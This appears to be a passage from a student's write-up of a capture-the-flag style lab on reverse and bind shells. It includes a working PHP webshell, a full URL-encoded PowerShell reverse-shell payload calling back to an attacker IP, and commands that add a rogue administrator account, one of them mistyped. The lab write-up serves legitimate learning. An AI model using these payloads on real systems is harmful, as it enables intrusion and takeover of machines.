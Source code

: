 3. Log into the Linux machine over SSH using the credentials in task 14. Use the techniques in Task 8 to experiment with bind and reverse netcat shells.

4. Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.

5. Look through [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) and try some of the other reverse shell techniques. Try to analyse them and see why they work.

6. Switch to the Windows VM. Try uploading and activating the `php-reverse-shell`. Does this work?

7. Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.

Use: `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`


Then run the query on the browser:
```
http://10.10.231.162/uploads/php-reverse-shell_windows.php?cmd=powershell%20-nop%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient(%2710.8.112.253%27%2C1234)%3B%24stream%20%3D%20%24client.GetStream()%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile((%24i%20%3D%20%24stream.Read(%24bytes%2C%200%2C%20%24bytes.Length))%20-ne%200)%7B%3B%24data%20%3D%20(New-Object%20-TypeName%20System.Text.ASCIIEncoding).GetString(%24bytes%2C0%2C%20%24i)%3B%24sendback%20%3D%20(iex%20%24data%202%3E%261%20%7C%20Out-String%20)%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20(pwd).Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20(%5Btext.encoding%5D%3A%3AASCII).GetBytes(%24sendback2)%3B%24stream.Write(%24sendbyte%2C0%2C%24sendbyte.Length)%3B%24stream.Flush()%7D%3B%24client.Close()%22%0A```
```

The above encoded link/query has a small thing to notice in the first line:
```
http://10.10.231.162/uploads/php-reverse-shell_windows.php?cmd=powershell
```

`cmd=powershell`: This means whatever garbage value we input from attacker machine, it would open powershell...

But the thing is, **We have to give some command otherwise the GET parameter will not get activated**. Once it is actived, our inputed value will be overwritten by _powershell_ keyword present as a parameter in the web request


8. The webserver is running with SYSTEM privileges. Create a new user and add it to the "administrators" group, then login over RDP or WinRM.

```
net user reveng007 password /add
```
```
nc localgroup administrators reveng007 /add
```

##### Now logging into the user reveng007 account, that we made


9. Experiment using socat and netcat to obtain reverse and bind shells on the Windows Target.

10. Create a 64bit Windows Meterpreter shell using msfvenom and upload it to the Windows Target. Activate the shell and catch it with multi/handler. Experiment with the features of this shell.
